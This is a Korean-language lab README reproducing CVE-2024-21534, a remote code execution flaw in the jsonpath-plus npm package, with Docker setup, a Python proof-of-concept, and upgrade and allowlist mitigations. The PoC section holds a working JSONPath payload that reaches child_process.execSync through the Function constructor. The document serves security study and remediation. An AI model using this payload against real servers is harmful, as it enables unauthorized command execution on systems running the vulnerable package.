


# CVE-2024-21534 | JSONPath-Plus Remote Code Execution

## 취약점 요약

`JSONPath-Plus`는 JavaScript에서 JSONPath 표현식을 평가하는 npm 패키지입니다. CVE-2024-21534는 `JSONPath-Plus`의 부적절한 입력 검증으로 인해 Node.js 환경에서 원격 코드 실행(RCE)이 가능한 취약점입니다.

- 공식 CVE: CVE-2024-21534
- 취약 패키지: `jsonpath-plus`
- 실습 버전: `10.0.0`
- 취약 유형: CWE-94, Improper Control of Generation of Code

## 환경 구성

- Base image: `node:22-alpine@sha256:16e22a550f3863206a3f701448c45f7912c6896a62de43add43bb9c86130c3e2`
- Runtime: Node.js 22 Alpine
- 취약 패키지: `jsonpath-plus@10.0.0`
- 의존성 고정: `package-lock.json`
- 설치 방식: `npm ci --omit=dev`
- 서비스 포트: `3000`

## 취약 조건

사용자가 전달한 JSONPath 표현식을 검증 없이 `JSONPath({ path, json })`에 전달하면 취약합니다. 이 실습 서버는 `/query` 요청의 `path` 값을 그대로 취약한 `jsonpath-plus@10.0.0`에 넘깁니다.

```js
const result = JSONPath({ path: payload.path, json: data });
```

## 재현 절차

1. 취약 환경을 실행합니다.

```sh
docker compose up --build -d
```

2. PoC를 실행합니다.

- 기본 PoC는 컨테이너 내부에서 `id` 명령을 실행합니다. 
```sh
python3 poc.py http://127.0.0.1:3000
```

- 다른 명령을 확인하려면 두 번째 인자로 전달합니다.
```sh
python3 poc.py http://127.0.0.1:3000 "uname -a"
```

3. 실습 후 정리합니다.

```sh
docker compose down
```

## PoC 코드

PoC는 악성 JSONPath payload를 만들어 `/query`에 전송합니다. payload 내부의 Function constructor가 `child_process.execSync()`를 호출하면서 명령 실행으로 이어집니다.

```python
command = "id"
js = (
    'throw new Error(this.process.mainModule.require("child_process")'
    f".execSync({json.dumps(command)}).toString())"
)
path = f"$[?([].constructor.constructor({json.dumps(js)})())]"
```

전송되는 JSONPath 구조는 다음과 같습니다.

```js
$[?([].constructor.constructor("... child_process.execSync(...) ...")())]
```

## 실행 결과

- `python3 poc.py http://127.0.0.1:3000`로 PoC를 실행하면, 응답의 `error` 필드에 컨테이너 내부 `id` 명령 결과가 포함됩니다.


- `python3 poc.py http://127.0.0.1:3000 "uname -a"`처럼 다른 명령을 확인할 수도 있습니다.


## 대응 방안

- `JSONPath-Plus`를 `10.3.0` 이상으로 업그레이드합니다.
- 사용자 입력을 JSONPath 표현식으로 그대로 평가하지 않습니다.
- JSONPath가 꼭 필요하다면 허용 가능한 표현식만 allowlist 방식으로 제한합니다.
- 애플리케이션과 컨테이너를 최소 권한으로 실행해 RCE 발생 시 피해 범위를 줄입니다.